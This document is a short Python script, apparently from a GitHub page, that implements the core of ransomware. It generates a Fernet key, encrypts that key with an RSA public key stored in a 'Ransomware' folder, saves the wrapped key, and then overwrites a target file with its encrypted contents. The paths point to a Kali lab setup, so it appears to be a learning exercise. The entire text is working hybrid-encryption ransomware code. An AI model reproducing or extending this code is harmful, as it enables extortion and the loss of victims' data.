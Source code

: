 from cryptography.hazmat.backends import default_backend
from cryptography.hazmat.primitives import serialization
from cryptography.hazmat.primitives.asymmetric import padding
from cryptography.hazmat.primitives import hashes
from cryptography.fernet import Fernet

symmetricKey  = Fernet.generate_key()

FernetInstance = Fernet(symmetricKey)

with open("/home/prof/Desktop/Ransomware/public_key.key", "rb") as key_file:
    public_key = serialization.load_pem_public_key(
        key_file.read(),
        backend=default_backend()
     )

encryptedSymmetricKey = public_key.encrypt(
    symmetricKey,
    padding.OAEP(
        mgf=padding.MGF1(algorithm=hashes.SHA256()),
        algorithm=hashes.SHA256(),
        label=None
    )
)

with open("encryptedSymmertricKey.key", "wb") as key_file:
        key_file.write(encryptedSymmetricKey)
        
filePath = "/home/kali/Desktop/Ransomware/FileToEncrypt.txt"

with open(filePath, "rb") as file:
    file_data = file.read()
    encrypted_data = FernetInstance.encrypt(file_data)

with open(filePath, "wb") as file:
    file.write(encrypted_data)
quit()

